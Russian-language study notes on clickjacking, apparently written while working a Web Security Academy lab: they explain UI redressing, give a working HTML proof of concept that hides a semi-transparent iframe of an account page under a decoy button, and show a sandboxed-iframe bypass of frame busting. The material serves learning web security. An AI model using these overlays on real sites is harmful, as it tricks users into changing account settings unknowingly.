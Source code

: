 # Clickjacking (UI redressing)

Форма прорисовывается поверх формы лигитимного приложения. Разница от CSRF в том, что требуется от пользователя интерактивных действий (кликнуть по кнопке, например).

CSRF токены не защищают от этого вида атак. Защищает детектирование того, что сайт загружен в скрытом iframe.

## Construct basic clickjacking attack

```markup
<html>
    <head>
        <title>UI Redressing PoC</title>
        <style>
            #target_website {
                position:relative;
                width:700px;
                height:500px;
                opacity:0.2;
                z-index:2;  /* Элемент с наиболее высоким z-index, перекрывает другие
                               Тем самым видимая часть (div) будет наверху, но фактически активным будет iframe
                            */
            }
            #decoy_website {
                position:absolute;
                z-index:1;
            }
            #btn_action {
                position: relative;
                width: 100px;
                height: 20px;
                color: brown; 
                top: 445px;  
                left: 40px;   
            }
        </style>
    </head>
    <body>
        <div id="decoy_website">
            <button id="btn_action">
                click me
            </button>
            ...decoy web content here...
        </div>
        <iframe id="target_website" src="https://0ac0003404fc3984c07807190024003a.web-security-academy.net/my-account?email=email2@gmail.com">
        </iframe>
    </body>
</html>
```

Через GET-параметры иногда можно добавлять значения по умолчанию в форму

Одна из Client-Side техник защиты от Clickjacking — Frame Busting. Однако это обходится в некоторых случаях.

Frame Busting реализуется с помощью проприетарных надстроек в браузере (через JS add-ons) или через такие расширения как NoScript. Скрипты реализуют следущее:

* проверить и обеспечить, чтобы текущее окно приложения было главным или верхним окном
* сделать все iframe видимыми
* предотвратить нажатие на невидимые frames
* перехватывать и помечать потенциальные кликджекинговые атаки для пользователя

Злоумышленник может это обойти, открывая iframe с атрибутами `allow-forms` или `allow-scripts` и опуская атрибут `allow-top-navigation`

```markup
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

Значения `allow-forms` и `allow-scripts` разрешают указанные действия в iframe, но навигация верхнего уровня отключена. Это запрещает прерывание кадров, но обеспечивает функциональность на целевом сайте.

